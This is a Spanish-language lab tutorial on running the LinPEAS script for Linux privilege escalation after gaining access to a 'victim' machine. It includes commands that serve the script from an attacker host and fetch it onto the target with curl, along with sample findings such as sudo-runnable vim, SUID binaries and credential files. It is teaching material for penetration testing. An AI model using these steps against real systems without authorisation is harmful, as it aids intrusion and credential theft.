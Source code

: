 
---

# Laboratorio de escalada de privilegios con LinPEAS

> `LinPEAS` es un script automatizado que nos ayuda a identificar posibles vectores de escalada de privilegios en sistemas Linux. Forma parte del conjunto de herramientas PEASS-ng (Privilege Escalation Awesome Scripts Suite).

---

## 1. ¿Qué es LinPEAS y para qué sirve?

`LinPEAS` realiza un escaneo completo del sistema en busca de:

- Binarios con permisos `SUID` inseguros
- Comandos permitidos vía `sudo`
- Servicios con configuraciones inseguras
- Archivos con permisos peligrosos
- Credenciales expuestas
- Archivos de configuración mal gestionados

Es especialmente útil durante la fase de **post-explotación**, tras haber obtenido acceso a una máquina víctima.

---

## 2. Descarga de LinPEAS

**Acción (en nuestra máquina atacante):**

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 1234
````

**Explicación:**  
Descargamos `linpeas.sh` desde el repositorio oficial de GitHub y lo servimos con un servidor HTTP para transferirlo a la máquina víctima.

---

## 3. Transferencia a la máquina víctima

**Acción (en la máquina víctima):**

```bash
curl http://<IP_local>:1234/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
```

**Resultado:**

```bash
-rwxr-xr-x 1 Metahumo Metahumo 400K Jun 14 15:30 linpeas.sh
```

**Explicación:**  
Transferimos el script `linpeas.sh` desde nuestra máquina atacante a la víctima y le damos permisos de ejecución.

---

## 4. Ejecución de LinPEAS

**Acción (como usuario con acceso limitado, por ejemplo `Metahumo`):**

```bash
./linpeas.sh
```

**Resultado (resumen):**

```bash
[+] Checking for SUID binaries...
[+] Checking sudo permissions...
[+] Interesting files...
[+] Writable cron jobs...
[+] Potential password in bash history...
...
```

**Explicación:**  
El script realiza múltiples chequeos y muestra con colores los posibles hallazgos más relevantes (por ejemplo, binarios sudo aprovechables, ficheros `.bash_history` con credenciales, servicios vulnerables, etc.).

---

## 5. Detección de binarios sudo explotables con LinPEAS

**Acción (dentro del output de LinPEAS):**

Buscar una sección similar a:

```bash
╔══════════╣ Sudo -l (privileged)
╚══════════
Matching Defaults entries for Metahumo on ubuntu:
    env_reset, mail_badpass, secure_path=...

User Metahumo may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/vim
```

**Explicación:**  
LinPEAS automáticamente ejecuta `sudo -l` y nos muestra qué comandos podemos ejecutar como root. Esta información puede cruzarse fácilmente con GTFOBins para confirmar su explotación.

---

## 6. Detección de binarios con SUID

**Ejemplo del output:**

```bash
-rwsr-xr-x 1 root root 123K /usr/bin/find
-rwsr-xr-x 1 root root 234K /usr/bin/vim.basic
```

**Explicación:**  
Los binarios marcados con `SUID` se ejecutan con los privilegios de su propietario (normalmente `root`). Algunos de estos binarios, si son vulnerables o mal configurados, pueden usarse para obtener acceso privilegiado.

---

## 7. Detección de archivos con contraseñas o credenciales

**Ejemplo del output:**

```bash
[+] Searching for passwords in config files
/home/Metahumo/.mysql_history
/home/Metahumo/.bash_history
...
```

**Explicación:**  
LinPEAS busca patrones comunes de contraseñas en archivos de configuración y shell histories. Si encontramos contraseñas, podemos intentar su reutilización en otros servicios o combinarlas con `sudo`.

---

## 8. Detección de cron jobs vulnerables

**Ejemplo del output:**

```bash
-rw-r--r-- 1 Metahumo Metahumo 0 Jun 14 15:35 /etc/cron.d/testjob
```

**Explicación:**  
Los cron jobs que son ejecutados como root pero son editables por usuarios sin privilegios son vectores de escalada clásicos.

---

## 9. Conclusiones y buenas prácticas

- LinPEAS es una herramienta muy potente y rápida para evaluar la seguridad local de una máquina Linux tras comprometerla.
    
- Permite detectar múltiples vectores sin necesidad de hacer búsquedas manuales largas.
    
- Los hallazgos deben validarse antes de explotarlos. No todo lo que LinPEAS muestra es explotable directamente.
    
- Se recomienda utilizarlo junto con GTFOBins y `sudo -l` para confirmar técnicas de escalada.
    

---

## 10. Referencias

- LinPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
- GTFOBins: [https://gtfobins.github.io](https://gtfobins.github.io/)
    
- Cheatsheet de escalada local: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
    

---

